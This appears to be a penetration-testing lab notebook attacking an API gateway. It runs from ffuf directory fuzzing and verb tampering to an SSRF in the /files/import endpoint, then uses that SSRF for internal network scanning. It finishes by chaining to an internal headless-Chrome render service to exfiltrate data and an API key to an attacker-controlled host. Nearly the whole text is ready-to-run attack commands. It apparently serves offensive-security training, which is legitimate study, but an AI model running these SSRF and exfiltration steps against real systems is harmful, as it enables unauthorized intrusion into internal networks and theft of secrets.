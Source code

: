 directory scan:
```powershell
ffuf -c -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -u http://apigateway:8000/FUZZ -t 200 -o endpoints.json
```
We could convert the json into a hashmap and work with the object:
```powershell
$hashtable = gc -raw ./endpoints.json | ConvertFrom-Json -AsHashtable 
$hashtable.results
```
but here is a more effective one liner:
```powershell
gc -raw ./endpoints.json | ConvertFrom-Json -AsHashtable | % -process { $_.results.GetEnumerator()} | % -process {Add-Content -Path parsed-urls.txt -Value $_.url}
```
Stripped Files
```powershell
foreach ($i in gc ./parsed-urls.txt) {Add-Content -Path endpoints-stripped.txt -value $i.split('/')[3]}
```
Http verb tampering
```powershell
Invoke-RouteBuster -ActionList ./actions-only-valid.txt -Wordlist ./wordlist-only-valid.txt -Target http://apigateway:8000 -Methods get,post
```

ssrf poc:
In particular this is a good example of how to send a json payload
```powershell
iwr -uri http://apigateway:8000/files/import -method Post -body (@{"url"="http://192.168.119.144/"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
```bash
curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://192.168.118.3/ssrftest"}' http://apigateway:8000/files/import
```

One interesting observeration is that python3 webserver provides less information than apache. To be specific when reading the apache servers logs we are able to see the user agent of the file import microservice: axios/0.21.1
```bash
sudo systemctl start apache2
sudo systemctl status apache
sudo tail /var/log/apache2/access.log -f
```

One thing also worth mentioning is that 'Access-Control-Allow-Credentials' is set on file/import and almost every other endpoing we bruteforced 
```bash
sudo tail /var/log/apache2/access.log -f
```

We can scan a list of gateways with:
```powershell
Invoke-SSRFGatewayScan -Target http://apigateway:8000/files/import -NetworkAddress '172.16.16.0/22' -Ports 8000 -Gateway
```
We can detect all of the live hosts and scan ports within the '172.16.16.0/28' range (/28 gives us the first 15 ip addresses, /29 gives the first 6)
```powershell
Invoke-SSRFGatewayScan -Target http://apigateway:8000/files/import -NetworkAddress '172.16.16.0/28' -Hosts -Open
```
```powershell
Invoke-SSRFGatewayScan -Target http://apigateway:8000/files/import -NetworkAddress '172.16.16.0/29' -Ports 8000 -Hosts -Open
```


headless chrome test powershell:
```powershell
iwr -uri http://apigateway:8000/files/import -method Post -body (@{"url"="http://172.16.16.2:9000/api/render?url=http://192.168.119.163/test.html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
Exfiltration via Javascript. Note that the internal Javascript reaches out to 172.16.16.4:8001 so at this point there are two ssrf targets.
- 172.16.16.2:9000
- 172.16.16.4:8001
```powershell
iwr -uri http://apigateway:8000/files/import -method Post -body (@{"url"="http://172.16.16.2:9000/api/render?url=http://192.168.119.163/exfiltration.html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
Exfiltrate api key
```powershell
iwr -uri http://apigateway:8000/files/import -method Post -body (@{"url"="http://172.16.16.2:9000/api/render?url=http://192.168.119.163/api-key-extraction.html"}|convertto-json) -ContentType 'application/json' -SkipHttpErrorCheck
```
